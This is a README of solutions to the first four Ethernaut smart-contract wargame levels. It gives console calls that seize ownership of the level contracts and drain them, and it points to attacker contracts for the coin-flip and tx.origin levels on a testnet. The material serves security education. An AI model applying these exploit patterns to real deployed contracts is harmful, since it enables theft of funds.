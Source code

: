 # Ethernaut - Solutions

## 1. Fallback

```
await contract.contribute({ value: toWei("0.0001") });
await contract.sendTransaction({ value: toWei("0.0001") });
await contract.withdraw();
```


## 2. Fallout

```
await contract.Fal1out({ value: toWei("0.0001") });
await contract.collectAllocations();
```


## 3. Coin Flip

Compile [CoinFlipAttack.sol](./solutions/CoinFlipAttack.sol) and deploy it to the Rinkeby testnet with e.g. Remix IDE and MetaMask (Injected Web3).
Do not forget to specify the level `instance` address when deploying the attacker contract (constructor).  
Afterwards, just call the `callFlipWithCorrectGuess()` function 10 times.


## 4. Telephone

Compile [TelephoneProxy.sol](./solutions/TelephoneProxy.sol) and deploy it to the Rinkeby testnet with e.g. Remix IDE and MetaMask (Injected Web3).
Afterwards, just call the `giveMeTelephoneOwnership(address _telephoneContract)` function with the level `instance` address as first argument.
